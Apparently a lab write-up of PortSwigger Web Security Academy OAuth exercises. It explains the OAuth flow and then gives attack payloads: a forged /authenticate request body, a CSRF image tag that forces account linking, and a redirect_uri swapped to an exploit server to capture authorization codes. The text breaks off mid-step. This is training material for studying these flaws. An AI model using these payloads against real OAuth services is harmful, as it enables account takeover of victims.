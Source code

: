 **5. Resource grant**
The resource server should verify that the token is valid and that it belongs to the current client application. If so, it will respond by sending the requested resource i.e. the user's data based on the scope associated with the access token.

    {
        "username":"carlos",
        "email":"carlos@carlos-montoya.net"
    }

## OAuth authentication
1. The user chooses the option to log in with their social media account. The client application then uses the social media site's OAuth service to request access to some data that it can use to identify the user. 
2. After receiving an access token, the client application requests this data from the resource server, typically from a dedicated /userinfo endpoint.
3. Once it has received the data, the client application uses it in place of a username to log the user in. The access token that it received from the authorization server is often used instead of a traditional password.

### LAB: Authentication bypass via OAuth implicit flow
Study the OAuth authentication flow, notice the `POST /authenticate HTTP/2` request, change its body to this:

    {
        "email":"carlos@carlos-montoya.net",
        "username":"wiener",
        "token":"7GLtuc8rTlCD5DaXFgjYk1nh0zkXXWmmdkLMbcEmsOt"
    }

We successfully logged in via carlos' account which indicates that the access token is not tied to each account.

### LAB: Forced OAuth profile linking
Notice that the OAuth server does not send a `state` parameter, which means the code sent from the server is not tied to any user's session. We can use that code to make victim link his account to our social media account. 
Intercept the linking social media account flow until we got the code from the server. Send this to make the victim link his account to that code:

    <img src="https://0a2b004203afa2cb80f59ef900e900df.web-security-academy.net/oauth-linking?code=sR98Oxu5FSJEsXziiCJKeQx4yg6U6OgVzn3Oa29Zv__">

Once the victim visits the link, we can use our social media account to login to his account and delete Carlos.

### LAB: OAuth account hijacking via redirect_uri
Try changing the value of the parameter `redirect_uri` in this request to our exploit server:

    GET /auth?client_id=rrfxlxt97swn6lab64807&redirect_uri=https://exploit-0a61000b04614159846d5815014a005f.exploit-server.net/exploit&response_type=code&scope=openid%20profile%20email

Notice the server accepts this and sends the authorization code to this URI. Make use of that, send this to the victim:
